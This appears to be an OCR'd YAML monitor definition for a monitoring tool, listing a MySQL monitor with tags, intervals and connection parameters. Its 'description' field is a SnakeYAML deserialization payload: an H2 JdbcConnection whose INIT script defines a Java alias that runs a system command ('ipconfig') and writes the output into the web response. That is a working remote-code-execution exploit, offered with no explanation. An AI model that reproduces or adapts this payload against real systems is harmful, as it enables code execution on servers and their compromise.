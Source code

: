 ```yaml
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: null
    description: !!org.h2.jdbc.JdbcConnection
      - jdbc:h2:mem:test
      - MODE: MSSQLServer
        INIT: |
          DROP ALIAS IF EXISTS EXEC;
          CREATE ALIAS EXEC AS $$void exec() throws Exception {
            org.springframework.util.StreamUtils.copy(
              java.lang.Runtime.getRuntime().exec("ipconfig").getInputStream(),
              ((org.springframework.web.context.request.ServletRequestAttributes)
                org.springframework.web.context.request.RequestContextHolder.currentRequestAttributes()
              ).getResponse().getOutputStream()
            );
          }$$;
          CALL EXEC ();
      - a
      - b
      - false
    host: any
    intervals: 60
    name: MYSQL_any
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: any
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: any
  - field: username
    type: 1
    value: admin
  - field: password
    type: 2
    value: 1VoUqkaf3xVudnLjC1gtzw==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null

```
